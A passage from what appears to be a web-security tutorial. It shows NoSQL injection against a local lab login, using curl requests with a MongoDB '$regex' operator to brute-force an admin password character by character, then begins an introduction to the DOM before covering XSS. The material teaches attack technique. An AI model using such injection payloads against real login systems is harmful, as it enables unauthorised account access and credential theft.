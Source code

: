 For example, we can check if the password starts with `'a'` using `^a`. If we get an error back, we can continue iterating through the characters.

```shell
curl -X POST http://127.0.0.1:9000/login \
-H "Content-Type: application/json" \
-d '{"username": "admin", "password": {"$regex": "^a" }}'
# should return the following
{
  "error": "Invalid username or password"
}

❯❯   curl -X POST http://127.0.0.1:9000/login \
-H "Content-Type: application/json" \
-d '{"username": "admin", "password": {"$regex": "^p" }}'
# should return the following
{
  "message": "Authentication successful",
  "user": {
    "id": 1,
    "password": "pass",
    "username": "admin"
  }
}
```

Once we have a match for the first character, we can continue with a longer substring to brute force the password, byte-by-byte!

## The DOM

Before we dive into XSS, we need to understand how Javascript manages websites. And before that, we need to understand the Document Object Model, or DOM. The [DOM](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction) is "the data representation of the objects that comprise the structure and content of a document on the web," including XML and HTML web pages. The key concept is that sites are a "tree" of objects. In HTML, every HTML tag (`<html>`, `<p>`, `<div>`, etc.) is an object. This structure allows us to program web pages with HTML directly and apply formatting with CSS tags. It also exposes an interface for higher-level languages like Javascript to manipulate the page in various ways. An example DOM HTML tree is below:

![[DOM_HTML_tree.gif]]
_Source: [w3schools.com](https://www.w3schools.com/js/pic_htmltree.gif)_

Javascript accesses the DOM through the `document` object. To demonstrate, consider the simple "Hello World" web page:

```html
<!DOCTYPE html>
<html>
<body>

<h1 id="myHeading">Hello World!</h1>

</body>
</html>
```
